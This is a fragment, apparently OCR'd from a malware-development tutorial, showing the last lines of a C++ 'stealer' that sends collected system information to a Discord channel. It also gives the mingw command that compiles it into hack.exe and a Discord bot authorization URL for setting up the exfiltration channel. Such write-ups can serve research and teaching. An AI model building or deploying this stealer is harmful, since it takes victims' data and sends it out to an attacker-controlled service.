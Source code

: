 ```cpp

  // send system info to discord
  sendToDiscord(systemInfo);
  return 0;
}
```

### demo

Let's check everything in action.     

Compile our "stealer" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-liphlpapi -lwinhttp
```

![malware](./images/127/2024-07-02_18-03.png){width="80%"}      

Before running on test victim machine we need authorize our bot to sending messages to channel:    

```yaml
https://discord.com/api/oauth2/authorize?client_id=123456789012345678&permissions=0&scope=bot
```

Replace cliend id with yours:     

